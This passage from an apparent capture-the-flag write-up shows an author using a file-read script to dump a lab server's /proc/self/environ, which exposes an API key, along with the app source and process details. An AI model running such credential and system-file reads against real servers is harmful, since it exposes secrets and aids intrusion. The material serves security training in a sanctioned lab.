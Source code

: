 

    oxdf@hacky$ ./get_file.sh /proc/self/environ | tr '\000' '\n'
    USER=htb
    HOME=/home/htb
    OLDPWD=/
    PORT=80
    LOGNAME=htb
    JOURNAL_STREAM=9:18599
    APP_MODULE=app.main:app
    PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
    INVOCATION_ID=0ace2198aa724422b25a8057eef74fdd
    LANG=C.UTF-8
    API_KEY=68b329da9893e34099c7d8ad5cb9c940
    HOST=0.0.0.0
    PWD=/home/htb



The working directory is `/home/htb`, and the Python app is
`app.main:app`. That means that it's loading the `app` object from
`app/main.py`.

That path works to read the source:



    oxdf@hacky$ ./get_file.sh /home/htb/app/main.py
    import asyncio                      

    from fastapi import FastAPI, APIRouter, Query, HTTPException, Request, Depends
    from fastapi_contrib.common.responses import UJSONResponse
    ...[snip]...



I could also use `/proc/self/app/main.py` to get the same result.

Another useful bit of info I could glean from `/proc` is to get the
[parent
pid](https://www.linuxquestions.org/questions/linux-enterprise-47/ppid-from-proc-file-system-594775/)
from `stat`:



    oxdf@hacky$ ./get_file.sh /proc/self/stat
    2265 (python3) S 2254 2241 2241 0 -1 4194304 23201 101 0 0 77 7 0 0 20 0 2 0 320599 157327360 16662 18446744073709551615 4194304 7042053 140735671126528 0 0 0 0 16781312 16386 0 0 0 17 1 0 0 0 0 0 9395632 9685776 35241984 140735671131712 140735671131841 140735671131841 140735671132135 0



It's the forth column, so 2254 in this case. I'll grab that `cmdline`:



    oxdf@hacky$ ./get_file.sh /proc/2254/cmdline | tr '\000' ' '
    /usr/bin/python3 /home/htb/.local/bin/uvicorn --reload --host 0.0.0.0 --port 80 app.main:app



I could read the `environ` file to confirm the exact local directory,
but it's running `app` from `app/main.py`. I'll also note it's running
with `--reload`.
